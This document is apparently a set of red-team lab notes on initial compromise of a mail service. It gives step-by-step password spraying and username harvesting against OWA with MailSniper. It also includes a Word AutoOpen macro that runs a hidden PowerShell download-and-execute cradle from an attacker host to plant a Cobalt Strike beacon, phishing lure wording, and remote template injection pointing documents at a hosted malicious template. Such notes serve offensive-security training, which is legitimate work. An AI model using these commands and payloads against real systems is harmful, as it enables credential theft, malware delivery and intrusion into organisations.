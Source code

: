 # Initial Compromise

Attack the OWA Exchange service at mail.cyberbotic.io.

## Password Spraying

Tools for password spraying against Office 365 and Exchange:
* [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)
* [MailSniper](https://github.com/dafthack/MailSniper)
* [namemash](https://gist.github.com/superkojiman/11076951)

On Attacker Desktop:
  1. Disable Defender's Real-time protection
  2. Download [MailSniper](https://github.com/dafthack/MailSniper/blob/master/MailSniper.ps1)
  3. In an Admin PS, run ```Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine```
  4. In a standard PS, import MailSniper: ```ipmo .\MailSniper.ps1```
  5. ```Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io```  // gives NetBIOS name of domain
  6. Generate possible usernames from names at [https://www.cyberbotic.io/our-team](https://www.cyberbotic.io/our-team):
    5. ```cd /mnt/c/Users/Attacker/Desktop/```
    6. ```cat names.txt```:
        * Bob Farmer
        * Isabel Yates
        * John King
        * Joyce Adams
    8. Use [namemash](https://gist.github.com/superkojiman/11076951) to generate usernames (if format isn't already known): ```python ./namemash.py names.txt > possible.txt```
  9. ```Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList possible.txt -OutFile valid.txt```  // validates usernames using timing attack
  10. Use [MailSniper](https://github.com/dafthack/MailSniper) to spray passwords against valid accounts (beware of login lockouts!):
  11. ```Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList valid.txt -Password Summer2022```


## Internal Phishing
With the credentials of a legit internal user, many doors open, e.g.:
* Emails that may contain sensitive information such as documents, usernames, and passwords
* Send internal emails on behalf of the user, containing specially crafted files/links, or even download a document already in an inbox, backdoor it (e.g. with a macro) and send it back to somebody

## Initial Access Payloads
Two options for delivering a payload that will execute on their system:

1. Send a URL from which a payload can download
2. Attach a payload to the phishing email

## Initial Access Payloads

Files emailed "internally" from a compromised Exchange mailbox are not tagged with a Zone Identifier, and won't have the "mark of the web" (MotW) and come under greater scrutiny.

Check to see whether a file has the MotW: ```gc .\test.txt -Stream Zone.Identifier```. The zones ```gc``` reports are: 

  0: Local computer
  1: Local intranet
  2: Trusted sites
  3: Internet
  4: Restricted sites

## Visual Basic for Applications (VBA) Macros

Docs containing macros are handled with more scrutiny. Create a macro in a Word document by:

1. In CS: Attacks > Scripted Web Delivery (S)
2. Make a 64-bit PowerShell payload for your HTTP listener
  3. URI: anything
  4. Local host: nickelviper.com
  5. Local port: 80
  6. Listener: http
  7. Type: powershell
  8. Use x64 payload
9. This creates a payload hosted on the team server so it can be downloaded over HTTP and executed in-memory; paste into a Word macro (below): ```Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""```
1. In Word: View > Macros > Create
2. Change the "Macros in" field to the document name
3. Basic macro:
    ```
    Sub AutoOpen()
    
      Dim Shell As Object
      Set Shell = CreateObject("wscript.shell")
      Shell.Run "<command>"
    
    End Sub
    ```
4. If the Office license doesn't allow macros, run a Command Prompt as admin:
    ```
    cd C:\Program Files\Microsoft Office\Office16
    cscript ospp.vbs /rearm
    ```
5. In Word: File > Info > Inspect Document > Inspect Document, click Inspect then Remove All next to Document Properties and Personal Information
6. File > Save As and save to C:\Payloads. Any filename, and Save as type: Word 97-2003 (.doc) (.docm usually gets flagged/blocked)
7. Host the file: in CS: Site Management > Host File
  1. File: <payload .doc file>
  2. Local URI: /<file>
  3. Local host: nickelviper.com // an appropriate looking URL you control or a hosting service like OneDrive would be more legit
  4. Local port: 80
  5. Mime type: automatic
8. Open an HTML email template for Office 365 in a browser from https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365
9. Copy the content and paste into the OWA text editor (if you attach the document directly to the email it will not have MotW and won't open in Protected View)
10. Change text/URL as appropriate, e.g. http://nickelviper.com/file.doc, and send email
11. Log into Workstation 2 as Bob, launch Outlook, and the email will arrive.
12. The file will still have the macro security warning; real phishing campaigns add text e.g. "Shoddy Security Suite has scanned the content and it is safe. To show file, click Enable Content".
13. Once clicked, a PS window will open and close quickly
14. A new beacon will appear in CS

## Remote Template Injection

Using Word's ability to create a doc from a template, which may hold a macro that executes arbitrary code.

1. Attacker Desktop: Open Word > New document
2. Insert desired macro
3. Save to C:\Payloads as Word 97-2003 Template (*.dot) file
4. CS: host template at http://nickelviper.com/template.dot
5. Word: create new document from the blank template at C:\Users\Attacker\Documents\Custom Office Templates
6. Add some content and save it as C:\Payloads\<file>.docx.
7. Explorer: right-click on file and select 7-Zip > Open archive
8. Navigate to word > _rels, right-click on settings.xml.rels and select Edit
9. Replace Target entry in the XML with "http://nickelviper.com/template.dot"
10. Save those changes and email the document to Bob
11. The file still gives a warning about macros but allowing them will execute the macro in the hosted template, creating a beacon in CS

[remoteinjector](https://github.com/JohnWoodman/remoteinjector) automates this process: ```python3 remoteinjector.py -w http://nickelviper.com/template.dot /mnt/c/Payloads/document.docx```

